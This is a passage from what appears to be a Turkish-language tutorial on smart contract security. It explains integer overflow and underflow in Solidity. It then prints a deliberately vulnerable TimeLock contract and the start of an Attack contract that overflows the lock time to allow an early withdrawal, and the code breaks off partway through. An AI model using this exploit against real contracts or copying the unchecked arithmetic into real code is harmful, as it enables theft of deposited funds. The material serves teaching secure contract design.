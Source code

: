 Tamsayı yetersizlikleri de benzer sebeplerden dolayı gerçekleşir: bir aritmetik işlemin sonuçlarının kabul edilebilir aralığın altına düşmesi. Bir `uint8` içinde `0`'ı azaltmaya çalıştığınızı düşünelim; sonuç, basit olarak temsil edilebilir maksimum değere (`255`) yuvarlanacaktır.

Hem tamsayı taşmaları hem de tamsayı yetersizlikleri, bir sözleşmenin durum değişkenlerinde beklenmedik değişimlere yol açabilir ve planlanmamış yürütmeye sebep olabilir. Bir saldırganın geçersiz bir işlem gerçekleştirmek için akıllı sözleşmedeki aritmetik taşmayı nasıl istismar edebileceğinin bir örneğini aşağıda görebilirsiniz:

```
pragma solidity ^0.7.6;

// This contract is designed to act as a time vault.
// User can deposit into this contract but cannot withdraw for at least a week.
// User can also extend the wait time beyond the 1 week waiting period.

/*1. Deploy TimeLock
2. Deploy Attack with address of TimeLock
3. Call Attack.attack sending 1 ether. You will immediately be able to
   withdraw your ether.

What happened?
Attack caused the TimeLock.lockTime to overflow and was able to withdraw
before the 1 week waiting period.
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
```